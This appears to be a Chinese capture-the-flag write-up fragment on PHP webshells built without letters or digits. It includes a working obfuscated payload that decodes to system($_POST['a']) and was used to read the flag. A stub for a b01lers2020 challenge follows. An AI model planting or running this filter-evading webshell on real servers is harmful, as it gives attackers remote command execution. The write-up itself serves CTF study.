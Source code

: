 [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)

> ```php
> <?php
> $a = ['我','真','厉','害','哈','你','牛'];
> for ($i = 0; $i < 7; $i++) {
>     $b = ~$a[$i];
>     var_dump($b);
> }
> 
> string(3) "wn"
> string(3) "c`"
> string(3) "qv"
> string(3) "QL"
> string(3) "lw"
> string(3) "_"
> string(3) "vd"
> ```
>
> 就是这个意思

抄个🐎

```php
<?=$_=[];$__.=$_;$____=$_==$_;$___=~茉[$____];$___.=~内[$____];$___.=~茉[$____];$___.=~苏[$____];$___.=~的[$____];$___.=~咩[$____];$_____=_;$_____.=~课[$____];$_____.=~尬[$____];$_____.=~笔[$____];$_____.=~端[$____];$__________=$$_____;$___($__________[~瞎[$____]]);
# <?=system($_POST['a']);
```

`env`得到flag

## [b01lers2020]Life on Mars

一眼谜语题

![image-20221226120654407](four.assets/image-20221226120654407.png)
